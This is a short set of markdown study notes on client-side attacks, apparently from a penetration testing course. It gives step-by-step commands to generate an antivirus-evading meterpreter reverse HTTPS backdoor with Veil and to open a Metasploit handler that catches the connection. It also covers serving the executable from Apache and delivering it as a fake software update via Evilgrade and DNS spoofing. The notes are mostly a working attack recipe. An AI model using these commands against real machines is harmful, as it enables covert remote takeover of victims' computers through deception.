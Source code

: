 # Client Side Attacks:
- Use if server side attacks fail
- If IP is probably useless
- Require user injection
- Social engineering can be very useful
- Information gathering is vital

## VEIL - Framework:
- A backdoor is a file that gives us full control over the machine that it gets executed on.
- Backdoors can be caught by Anti-Virus programs.
- Veil is a frameowrk for generating Undetectable backdoors.

```bash
veil
```
If you execute "list" in viel command, there will be two available tools:
1. Evasion (Generates undetectable backdoors)
2. Ordnance (Generates payloads)

```bash
use 1 # Evasion and will enter to the evasion command tool
list  # List all the available payloads
use 15 # go/meterpreter/rev_https.py
set LHOST 10.20.14.213  # My IP address
set LPORT 80 # 8080 also can be used
set PROCESSORS 1
set SLEEP 6
options
generate # Generate the backdoor
rev_https_8080  # Base name of output files
```

## Listening For Incomming Connections:
Use used *go/meterpreter/rev_https* payload and *port 8080*
```bash
msfconsole
use exploit/multi/handler
show options
set PAYLOAD windows/meterpreter/reverse_https
show options
set LHOST 10.20.14.213  # Your IP
set LPORT 80  # If backdoor is set to 8080, then here also 8080
show options
exploit
```

## Basic Delivery Method To Test the Backdoor (Hack Windows):
Create a folder named "evil-files" in "/var/www/html/" and go to "/var/lib/viel-evasion/output/compiled". Copy the **.exe** file and paste into the evil-files directory created just a secound ago.
```bash
service apache2 start
```
After deliver the file, execute
```bash
sysinfo
```

## Hack Windows 10 using Fake Update:
### Backdoor Delivery Method1 - Spoofing Software Updates
- Fake an update for an already installed program
- Install backdoor instead of the update
- Requires DNS spoofing + Evilgrade (a server to serve the update).

1. Download and install Evilgrade using the instructions in the resources.
2. Start Evilgrade -->   **> ./configure**
3. Check programs that can be hijacked  --> **> show modules**
4. Select one  --> **> configure [module]**
5. Set backdoor location --> **> set agent [agent location]**
6. Start server --> **> start**
7. Start dns spoofing and handler